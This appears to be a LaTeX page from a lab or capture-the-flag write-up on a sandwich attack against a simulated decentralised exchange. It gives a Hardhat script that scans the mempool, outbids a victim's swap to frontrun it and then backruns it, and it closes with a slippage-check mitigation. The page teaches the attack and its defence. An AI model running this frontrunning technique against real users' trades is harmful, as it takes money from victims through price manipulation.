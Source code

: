 \documentclass[12pt]{article}
\begin{document}
\noindent
The sandwich attack consists of three steps:

\begin{enumerate}
\item \textbf{Frontrun}: Buy tokens (swap ETH for USDC) before the victim's transaction, increasing the price
\item \textbf{Victim transaction}: Let the victim's swap execute at the now-worse price
\item \textbf{Backrun}: Sell the tokens (swap USDC back to ETH) after the victim's transaction, when the price is even higher
\end{enumerate}

\begin{verbatim}
// See the mempool
const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
  "pending",
  false,
]);

// Use our explorer function to show detailed transaction info
const targetTx = await exploreMempoolTransactions(
  pendingBlock.transactions,
  simpleDEX,
  "ethToUsdc"
);

// Calculate ETH to use (all player's ETH minus some for gas)
const gasBuffer = ethers.parseEther("0.01"); // Keep 0.01 ETH for gas costs
const frontrunAmount = PLAYER_INITIAL_ETH - gasBuffer;
console.log(
  `\nExecuting frontrun: swapping ${ethers.formatEther(
    frontrunAmount
  )} ETH for USDC...`
);

const frontrunTx = await simpleDEX.connect(player).ethToUsdc({
  value: frontrunAmount,
  maxPriorityFeePerGas: targetTx.maxPriorityFeePerGas + BigInt(1000000000), // +1 Gwei
  maxFeePerGas: targetTx.maxFeePerGas + BigInt(1000000000), // +1 Gwei
});

mine(1);

// backrun the transaction
const backrunAmount = await usdcToken.balanceOf(player.address);
await usdcToken.connect(player).approve(simpleDEX.target, backrunAmount);
await simpleDEX.connect(player).usdcToEth(backrunAmount);
\end{verbatim}

\subsubsection*{Possible Mitigation}

DEX should support slippage tolerance to protect against significant price movements. If the price moves beyond the tolerance, the transaction reverts.

\begin{verbatim}
function ethToUsdcWithSlippage(uint minUsdcOut) external payable {
    uint usdcBought = calculateOutput(msg.value);
    require(usdcBought >= minUsdcOut, "Slippage exceeded");
    // Execute the swap
}
\end{verbatim}
\end{document}
